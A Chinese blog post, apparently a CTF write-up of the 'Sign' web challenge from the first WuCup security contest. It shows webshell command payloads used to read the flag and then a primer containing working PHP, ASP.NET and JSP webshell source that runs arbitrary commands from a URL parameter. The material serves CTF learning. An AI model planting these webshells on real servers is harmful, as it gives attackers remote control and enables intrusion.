 ```yaml
---
title: 吾杯网络安全技能大赛[Web方向]-Sign签到题
date: 2024-12-02
tags:
 - CTF
 - WriteUP
categories:
 - 随笔 Essay 
isShowComments: true
publish: true







---
```


<Boxx/>

参加了第一届吾杯网络安全技能大赛，这是一道Web方向的签到题，这是我的第24题

[[toc]]

- 网址【[传送门](https://www.wucup.net/)】

| 题目编号 | 题目名称 | 题目方向 | 难度 |
| -------- | -------- | -------- | ---- |
| 无       | Sign     | Web      | 1    |

<!-- more -->

# 题目24：Sign

### 题目描述：POST浅浅签个到吧

### 考点：WebShell的应用

### 预期解：通过WebShell的方式去执行命令

首先进入靶机，页面提示passwd:sgin

原本一开始想的是通过HackBar给目标传一个passwd的参数，参数的值是sgin，结果发现不可以，还是返回了passwd:sgin。尝试了多种方式，比如把sgin改成了sign等，种种方法都不行。

比赛结束后，参考了跑[**CHTXRT**](https://blog.csdn.net/CHTXRT/article/details/144175464)师傅的WriteUp，才发现是直接用WebShell的方式发一个POST请求，参数名是sgin，参数值直接就是system(ls /)等命令，这位师傅的WriteUp对我的启发很大，之前虽然学了WebShell的用法，但没有想到这道题是用WebShell来完成的。

```shell
sgin=system("ls /");
```

![image-20241202194034912](/img/essay/image-20241202194034912.png)

同理，我们看到目录下有个flag文件，直接cat该文件即可

```shell
sgin=system("cat /flag");
```

看了老师傅的WP，感受颇多，最近虽然刷了一些入门题单，但感觉都没形成条件反射，缺少很多基础知识，对于提示不敏感，以及对入门题单讲过的知识点和方法不熟悉，所以导致这道Web签到题都没有做出来

># WebShell 简介
>
>## 一、定义
>
>WebShell 是一种特殊的脚本文件，它允许攻击者通过网页浏览器与目标服务器进行交互，进而在服务器端执行各种命令，实现对服务器的一定程度的控制。
>
>## 二、常见类型及操作示例
>
>### PHP WebShell
>
>在基于 PHP 的网站环境中较为常见。以下是一个简单的 PHP WebShell 示例代码：
>
>```php
><?php
>if(isset($_GET['cmd'])){
>    $cmd = $_GET['cmd'];
>    system($cmd);
>    echo $cmd.'的执行结果：<br>';
>    echo '<pre>'.shell_exec($cmd).'</pre>';
>}
>?>
>```
>
>在这个示例中：
>
>- 首先通过 `isset($_GET['cmd'])` 检查是否通过 GET 请求传递了名为 `cmd` 的参数。
>- 如果存在该参数，就将其值赋给变量 `$cmd`。
>- 然后使用 `system($cmd)` 或 `shell_exec($cmd)` 函数来执行这个命令。`system` 函数会直接执行命令并输出结果到浏览器（但可能不会完整返回所有输出内容），而 `shell_exec` 函数执行命令后会返回完整的输出结果，这里通过 `<pre>` 标签对输出进行格式化展示，以便更清晰地查看。
>
>攻击者可以通过构造类似 `http://target.com/shell.php?cmd=ls -l` 的 URL 来执行服务器上的 `ls -l` 命令，查看指定目录下文件的详细信息等操作。
>
>### ASP/[ASP.NET](https://asp.net/) WebShell
>
>适用于基于微软的 IIS 服务器和 ASP/[ASP.NET](https://asp.net/)技术的网站。示例代码如下（简化示例）：
>
>```asp
><%@ Page Language="C#" %>
><%@ Import Namespace="System.Diagnostics" %>
><%
>if(Request.QueryString["cmd"]!= null)
>{
>    string cmd = Request.QueryString["cmd"];
>    ProcessStartInfo psi = new ProcessStartInfo(cmd);
>    psi.UseShellExecute = false;
>    psi.RedirectStandardOutput = true;
>    Process p = Process.Start(psi);
>    Response.Write(p.StandardOutput.ReadToEnd());
>}
>%>
>```
>
>在这个[ASP.NET](https://asp.net/)的示例中：
>
>- 首先判断是否通过 QueryString（类似 GET 请求方式）接收到名为 `cmd` 的参数。
>- 若接收到，将其赋值给变量 `cmd`。
>- 然后创建一个 `ProcessStartInfo` 对象来设置要执行的命令相关信息，通过 `Process.Start` 启动该命令的执行，并将执行结果通过 `Response.Write` 输出到浏览器，供攻击者查看。
>
>攻击者可通过构造如 `http://targetserver.com/shell.asp?cmd=dir` 的 URL 来执行服务器上的 `dir` 命令，获取当前目录下的文件列表信息。
>
>### JSP WebShell
>
>在 Java Web 应用环境下使用。示例代码如下：
>
>```jsp
><%@ page import="java.io.BufferedReader,java.io.InputStreamReader,java.io.IOException,java.lang.ProcessBuilder" %>
><%
>if(request.getParameter("cmd")!= null)
>{
>    String cmd = request.getParameter("cmd");
>    ProcessBuilder pb = new ProcessBuilder(cmd.split(" "));
>    pb.redirectErrorStream(true);
>    Process p = pb.start();
>    BufferedReader br = new BufferedReader(new InputStreamReader(p.getInputStream()));
>    String line;
>    while ((line = br.readLine())!= null)
>    {
>        out.println(line);
>    }
>    br.close();
>}
>%>
>```
>
>在这个 JSP WebShell 示例中：
>
>- 同样先检查是否通过 `request.getParameter("cmd")` 接收到名为 `cmd` 的参数。
>- 若有，将其赋值给变量 `cmd`。
>- 接着使用 `ProcessBuilder` 来构建要执行的命令，并启动执行过程。通过 `BufferedReader` 读取命令执行的输出结果，并逐行输出到浏览器页面上，供攻击者查看执行情况。
>
>攻击者可通过构造如 `http://targetserver.com/shell.jsp?cmd=ls -al` 的 URL 来执行服务器上的 `ls -al` 命令，查看目录下文件的详细信息。
>
>## 三、使用场景及目的
>
>WebShell 通常被攻击者用于在成功入侵目标服务器后，进一步深入控制服务器。例如，通过执行文件操作命令来查看、修改或删除服务器上的文件；执行系统命令获取服务器的系统信息、网络配置等；或者利用服务器的资源进行其他恶意活动，如发动 DDoS 攻击等。在 CTF 比赛中，了解 WebShell 有助于理解某些涉及服务器攻击与防御相关的题目，帮助选手更好地分析题目思路和找到解题方法。

